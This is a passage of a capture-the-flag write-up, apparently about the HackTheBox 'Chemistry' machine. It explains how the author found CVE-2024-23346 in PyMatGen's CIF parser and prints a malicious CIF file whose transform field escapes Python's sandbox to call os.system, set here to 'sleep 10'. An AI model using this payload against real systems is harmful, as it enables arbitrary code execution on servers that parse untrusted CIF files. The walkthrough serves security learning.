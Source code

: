 ![uploaded-cif](../assets/img/posts/htb-chemistry/view-upload.png)

## Initial Foothold

### Discovering the CIF Parser Vulnerability

Testing various payloads through Burp Suite resulted in 500 errors, suggesting potential parser vulnerabilities. Research led to discovering CVE-2024-23346, a critical vulnerability in the PyMatGen library that parses CIF files.

[This page](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) has a PoC that looks to exploit a CIF parser and run bash system commands through python. I changed the system command to "sleep 10" for testing:
```text
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("sleep 10");0,0,0'

```